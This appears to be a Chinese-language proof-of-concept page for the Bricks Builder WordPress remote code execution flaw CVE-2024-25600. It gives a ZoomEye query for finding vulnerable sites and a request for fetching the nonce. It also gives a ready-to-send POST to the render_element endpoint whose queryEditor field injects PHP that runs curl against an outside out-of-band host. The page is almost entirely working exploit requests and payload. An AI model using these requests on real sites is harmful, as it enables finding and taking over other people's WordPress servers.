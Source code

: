 ## WordPress插件Bricks Builder存在RCE漏洞(CVE-2024-25600)

## zoomeye
```
web.body="/wp-content/themes/bricks/"
```

## poc

### 获取nonce值
```
GET / HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:96.0) Gecko/20100101 Firefox/96.0
Connection: close
Accept-Encoding: gzip, deflate
```
![f8692e900e34adeb6f8b23677258b8e1](../../images/656552ce-28a6-407a-b746-56bd36ea3eb0.png)

### rce
```
POST /wp-json/bricks/v1/render_element HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Connection: close
Content-Length: 401
Content-Type: application/json
Accept-Encoding: gzip, deflate

{
  "postId": "1",
  "nonce": "c5b5949**",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "true",
      "query": {
        "useQueryEditor": true,
        "queryEditor": "ob_start();echo `curl cnc4ej5blq62an78ck6giyhcffmdr5t56.oast.pro`;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",
        "objectType": "post"
      }
    }
  }
}
```
![78880674cd49cefc6d5787c30efaf8cd](../../images/986bebf0-4369-462b-923c-775434318338.png)

## 漏洞分析
- https://xz.aliyun.com/t/13833
